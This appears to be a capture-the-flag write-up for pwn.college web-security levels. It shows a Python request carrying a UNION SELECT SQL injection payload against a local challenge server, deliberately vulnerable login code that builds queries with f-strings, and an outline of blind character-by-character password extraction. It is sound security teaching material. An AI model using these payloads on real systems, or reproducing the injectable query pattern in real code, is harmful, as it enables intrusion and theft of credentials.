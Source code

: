 ```python

In [48]: import requests as rq
    ...: data = {
    ...:     'query': ' " UNION SELECT password FROM table6108655952227085405 ; --'
    ...:     }
    ...: url = "http://challenge.localhost:80"
    ...: response = rq.post(url, params=data)
    ...: print(response, "\n", response.text)


<Response [200]> 
 pwn.college{flag_here}

```


## Web-Security level 7

* Exploit a structured query language injection vulnerability to blindly leak data

> Source Code :
```py
def level7():
    db.execute(("CREATE TABLE IF NOT EXISTS users AS "
                'SELECT "flag" AS username, ? as password'),
               (flag,))

    if request.method == "POST":
        username = request.form.get("username")
        password = request.form.get("password")
        assert username, "Missing `username` form"
        assert password, "Missing `password` form"

        user = db.execute(f'SELECT rowid, * FROM users WHERE username = "{username}" AND password = "{password}"').fetchone()
        assert user, "Invalid `username` or `password`"

        session["user"] = int(user["rowid"])
        return redirect(request.path)

    if session.get("user"):
        user_id = int(session.get("user", -1))
        user = db.execute("SELECT * FROM users WHERE rowid = ?", (user_id,)).fetchone()
        if user:
            username = user["username"]
            return f"Hello, {username}!\n"

    return form(["username", "password"])
```

* In the above query there is `rowid` used which we don't know..
* also there is multiple item in `SELECT` query.
* `assert` used in this `POST` login method, which means if we login successfully `assert` will not executes otherwise assert will executes.
* In bottom of lines we can see that there is a message where it show `"Hello {username}"` mean, if we successfully login then it will be showed.
* This is a type of blind SQL where we don't know the response, In this case we can still exploit the database by using conditional statement by extracting bit by bit data.
* So, Conclusion is : we can guess the user password by login error type :
  * if our passed `character` is match correct in database password, that means we guess the correct character.
  * Otherwise if it's wrong then we can say it's not correct.
  * We will have to extract data by bit by bit.
